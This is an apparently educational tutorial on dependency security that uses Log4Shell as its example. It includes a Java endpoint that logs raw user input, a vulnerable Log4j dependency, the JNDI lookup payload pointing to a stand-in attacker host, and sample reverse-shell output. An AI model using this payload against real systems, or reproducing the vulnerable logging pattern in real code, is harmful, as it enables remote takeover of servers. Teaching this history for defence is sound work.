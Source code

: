 ```yaml
---
title: Introduction to third party libraries
---
```


In software development, you will quickly find how often we rely on third-party libraries and frameworks to build products. These dependencies can significantly reduce the time we need, however, while we benefit from reusing code, we are not always aware of the vulnerabilities they might have.

When you work on a project, we should not only be concerned about the time it takes to build it, but also how we can make it secure and reliable. In a competitive market, when there are security issues in your product, this can negatively affect customer expectations and result in serious financial losses.

For example, in 2021, a critical security vulnerability known as Log4Shell was discovered in the Apache Log4j logging library. This library was used in various consumer and enterprise services, websites, and applications. So, when people found out that attackers can execute remote code on affected systems, there was a costly move to patch and mitigate the threat.

## Third-Party Libraries

Developers use third-party libraries because they are easy to install and integrate. With package managers like `npm`, `pip`, or `maven`, it is easy for you to search and install dependencies from centralized repositories.

```bash
# Install a specific package from PyPI using pip
python -m pip install <some-project>
```

When you install a package, you will typically specify the name and version. Many times, if you are joining a project, these packages or dependencies will be listed in a file like `package.json`, `requirements.txt`, or `pom.xml`.

```bash
# Install all dependencies listed in requirements.txt
python -m pip install -r requirements.txt
```

However, third-party libraries can have vulnerabilities like any other code, that attackers can exploit to attack your program. If these are not regularly updated or fixed, this becomes a problem for you as a user of the library.

In the worst case, dependencies you might use can be abandoned. This means there could be a lack of updates and bug fixes, and oftentimes, you might need to find alternatives or maintain the dependency yourself.

## Handle Third-Party Libraries

To prevent vulnerabilities from third-party libraries, we need to manage them effectively. We should start by carefully selecting what dependencies we plan to integrate. For example, choose libraries from reputable sources with active communities and regular updates.

After you install third-party libraries, it is important that you regularly check for updates and security patches. The sooner you can apply bug fixes the less chance attackers can exploit the dependency in your program.

If you find that a library is no longer receiving updates or support, consider replacing it with an actively maintained alternative. In some cases, you might need to fork the library and maintain it yourself, but this should be a last resort because maintenance can become another challenge.

## Real-World Example

Let's revisit the Log4Shell security incident to better understand how a third-party library could be exploited and put your program at risk of an attack.

To review, this was a vulnerability in the widely used Apache Log4j logging library. This vulnerability allowed attackers to execute remote code by including malicious code in places the logging library could have been used.

For example, let's say we installed the dependency for a Java project. To do this, we used maven and specified the vulnerable version at the time.

```xml
<!-- install vulnerable log4j -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
    <version>2.6.1</version>
</dependency>
```

This project was a simple API that processed messages received from users. Instead of creating our own logging solution, we used Log4j because it was the standard with many options to customize for our project.

```java
@PostMapping("/process-message")
public String processMessage(@RequestParam("message") String message, Model model) {
    // process the received message (e.g., log it)
    logger.info("Received message: " + message);

    // add the message to the model (for displaying on a result page)
    model.addAttribute("receivedMessage", message);

    // thymeleaf template name for displaying the result
    return "result";
}
```

However, it was discovered that attackers can exploit programs using this library by including malicious code as input to the logging function. This was possible because Log4j included many options for special use cases that treated special characters as instructions instead of normal data to log.

For example, an exploit called Log4Shell used the following input:

```text
${jndi:ldap://attackerserver.com:1389/ExploitPayload}
```

If this input was passed into our API endpoint, then it was possible for attackers to execute any code they wanted. As the exploit is called Log4Shell, the most common goal was to get a reverse shell. This meant attackers could have taken control of the server to perform any action.

```bash
# Reverse shell established
Netcat: Connection from <ip_address>

# Command to print the current working directory
$ pwd
> /home/ec2-user/victim

# Command to print the current user
$ whoami
> root
```

This was a real threat when the Log4j vulnerability was discovered. For example, you might be familiar with the video game Minecraft. At that time, attackers could have joined multiplayer servers and executed programs on the computer of any player, including the hosting server, who was there.

To fix this vulnerability, the maintainers of Log4j quickly released hot patches to reduce the impact of attacks. Developers who depended on Log4j took steps to update their version. However, people realized that even if they did not directly use Log4j, they might have dependencies that did.
